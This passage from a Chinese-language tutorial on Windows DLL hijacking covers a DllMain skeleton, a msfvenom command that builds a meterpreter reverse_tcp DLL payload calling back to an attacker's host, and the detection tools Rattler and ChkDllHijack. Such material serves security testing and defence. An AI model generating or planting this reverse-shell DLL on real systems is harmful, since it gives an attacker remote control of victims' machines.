 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```c\+\+<br>BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){<br>  printf("hModule.%p lpReserved.%p \n", hModule, lpReserved);<br>  switch (ul_reason_for_call)<br>  {<br>    case DLL_PROCESS_ATTACH:<br>      printf("Process attach. \n");<br>      break;<br>    case DLL_PROCESS_DETACH:<br>    	printf("Process detach. \n");<br>    	break;<br>    case DLL_THREAD_ATTACH:<br>    	printf("Thread attach. \n");<br>    	break;<br>    case DLL_THREAD_DETACH:<br>    	printf("Thread detach. \n");<br>    	break;<br>    }<br>return (TRUE);<br>}<br>``` |

如果应用程序调用的 DLL 没有 DLLMain 函数就需要实现指定导出函数，然后等待导出函数执行完毕再 Load 真实 DLL。

#### [](#622-msf)6.2.2 msf

MSF 生成 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f dll > a.dll<br>``` |

### [](#63-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7%E6%A3%80%E6%B5%8B)6.3 自动化工具检测

#### [](#631-rattler)6.3.1 rattler

[https://github.com/sensepost/rattler](https://github.com/sensepost/rattler)

实现思路：

-   枚举进程调用的 dll 列表，解析出 dll 的名称
-   将测试 dll 分别重命名为列表中的 dll 名称
-   再次启动程序，检测是否成功创建进程 calc.exe，如果成功，代表存在漏洞，否则不存在

测试：

使用 Visual Studio 编译 Rattler，将 payload.dll 放于同级目录下

payload.dll 下载地址：

[https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll](https://github.com/sensepost/rattler/releases/download/v1.0/payload.dll)

管理员权限的 cmd 下运行命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>Rattler.exe [待检测程序名称] 1<br>``` |

#### [](#632-chkdllhijack)6.3.2 ChkDllHijack

使用 windbg 导出 module：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20190102103743.png-water_print](assets/1699411459-e67f446e782e072a32b15f34d26eb0ed.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20190102103743.png-water_print")
